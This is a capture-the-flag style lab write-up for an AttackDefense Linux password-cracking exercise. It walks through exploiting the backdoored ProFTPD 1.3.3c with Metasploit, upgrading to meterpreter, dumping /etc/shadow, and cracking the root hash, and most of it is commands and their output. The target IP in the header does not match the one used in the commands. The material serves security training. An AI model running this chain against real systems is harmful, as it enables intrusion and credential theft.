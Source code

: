 # 🔬Hashes Dumping

## Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Password Cracker: Linux](https://attackdefense.com/challengedetails?cid=1776)
>
> * Target IP: `192.75.64.3`
> * **Password Hashes** dumping - `/etc/shadow`

### Enumeration

```bash
nmap -sV 192.87.153.3
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-07-22 03:52 UTC
Nmap scan report for target-1 (192.87.153.3)
Host is up (0.0000090s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
MAC Address: 02:42:C0:57:99:03 (Unknown)
Service Info: OS: Unix
```

* &#x20;A proftpd 1.3.3c server is discovered running on the target machine. Run nmap vuln script to identify the vulnerability.

```bash
nmap -sV --script vuln -p 21 192.87.153.3
```

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
|_sslv2-drown: 
MAC Address: 02:42:C0:57:99:03 (Unknown)
Service Info: OS: Unix
```

> The target proftpd installation has been running a backdoored vers&#x20;

```bash
searchsploit proftpd 1.3.3
```

<figure><img src="../../../../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Exploitation

```bash
service postgresql start && msfconsole -q
msf5 > search proftpd
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Start a metasploit framework and exploit proftpd server using `exploit/unix/ftp/proftpd_133c_backdoor` module.

```bash
msf5 > setg RHOSTS 192.87.153.3
msf5 > use exploit/unix/ftp/proftpd_133c_backdoor
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Upgrade the sessions to a `meterpreter` session

```bash
# background the session with CTRL+Z
sessions -u 1
sessions # check available sessions
sessions 2
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
meterpreter > sysinfo
meterpreter > getuid
```

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Hashes Dumping <a href="#hashes-dumping" id="hashes-dumping"></a>

```bash
meterpreter > cat /etc/shadow
    root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Gather Linux Password hashes with `Metasploit`

```bash
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > search hashdump
msf5 exploit(unix/ftp/proftpd_133c_backdoor) > use post/linux/gather/hashdump
msf5 post(linux/gather/hashdump) > options
msf5 post(linux/gather/hashdump) > sessions 
msf5 post(linux/gather/hashdump) > set SESSION 2
msf5 post(linux/gather/hashdump) > run
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
[+] root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20240722041512_default_192.87.153.3_linux.hashes_562294.txt
[*] Post module execution completed
```

* The _unshadowed password file_ is a file containing the format hashed password, ready to be cracked.

### Crack the Hash <a href="#crack-the-hash" id="crack-the-hash"></a>

```bash
search crack
use auxiliary/analyze/crack_linux
set SHA512 true
run
```

<figure><img src="../../../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `password`
{% endhint %}
